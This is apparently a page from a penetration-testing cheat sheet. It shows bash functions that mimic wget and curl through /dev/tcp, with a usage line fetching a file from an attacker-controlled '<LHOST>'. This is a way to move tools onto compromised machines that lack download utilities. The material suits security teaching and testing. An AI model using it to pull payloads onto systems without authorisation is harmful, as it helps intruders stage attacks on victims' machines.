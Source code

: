 ###### wget version

Paste directly to the shell.

```c
function __wget() {
    : ${DEBUG:=0}
    local URL=$1
    local tag="Connection: close"
    local mark=0

    if [ -z "${URL}" ]; then
        printf "Usage: %s \"URL\" [e.g.: %s http://www.google.com/]" \
               "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi
    read proto server path <<<$(echo ${URL//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    [[ $DEBUG -eq 1 ]] && echo "HOST=$HOST"
    [[ $DEBUG -eq 1 ]] && echo "PORT=$PORT"
    [[ $DEBUG -eq 1 ]] && echo "DOC =$DOC"

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.1\r\nHost: ${HOST}\r\n${tag}\r\n\r\n" >&3
    while read line; do
        [[ $mark -eq 1 ]] && echo $line
        if [[ "${line}" =~ "${tag}" ]]; then
            mark=1
        fi
    done <&3
    exec 3>&-
}
```

```c
__wget http://<LHOST>/<FILE>
```

###### curl version

```c
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
```
